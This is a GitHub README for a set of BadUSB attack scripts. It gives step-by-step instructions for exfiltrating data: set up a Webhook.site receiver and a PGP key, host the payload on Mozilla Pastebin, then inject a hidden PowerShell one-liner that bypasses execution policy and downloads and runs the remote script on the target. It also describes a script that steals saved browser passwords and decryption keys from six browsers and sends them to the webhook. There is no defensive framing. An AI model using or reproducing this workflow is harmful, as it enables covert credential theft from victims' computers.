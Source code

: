 # BadUSB Scripts
## How to Use
### Scripts With Extraction
1. Generate [Webhook.site](https://webhook.site/) page
2. Create New PGP Key
	- UID based on the [Webhook.site](https://webhook.site/) generated page and email address
	- Use RSA only as PSPGP doesn't support ECC yet
	- Publish public key on [keys.openpgp.org](https://keys.openpgp.org/) and validate the process
3. Edit the script to add the public key and [Webhook.site](https://webhook.site/) link
5. Paste the script on [Mozilla Pastebin](https://pastebin.mozilla.org/)
6. Make a one liner that will be run in the target's Run window through the BadUSB device
	- `PowerShell -w h -NoP -NonI -Exec Bypass $R = iwr https://pastebin.mozilla.org/<SNIPPET_CODE>/raw ; invoke-expression $R.Content`
7. Run the attack
8. Grab the extracted file from [Webhook.site](https://webhook.site/)
9. Decrypt extracted file with the previously created PGP Key
10. Enjoy
### Scripts Without Extraction
1. Paste the script on [Mozilla Pastebin](https://pastebin.mozilla.org/)
2. Make a one liner that will be run in the target's Run window through the BadUSB device
	- `PowerShell -w h -NoP -NonI -Exec Bypass $R = iwr https://pastebin.mozilla.org/<SNIPPET_CODE>/raw ; invoke-expression $R.Content`
3. Run the attack
10. Enjoy
## Scripts
### [browser_passwords](browser_passwords.ps1)
Grabs the encrypted passwords from Firefox, Google Chrome, Edge, Brave, Opera and Opera GX as well as the keys to decrypt them, then encrypts and extracts all the data to a webhook.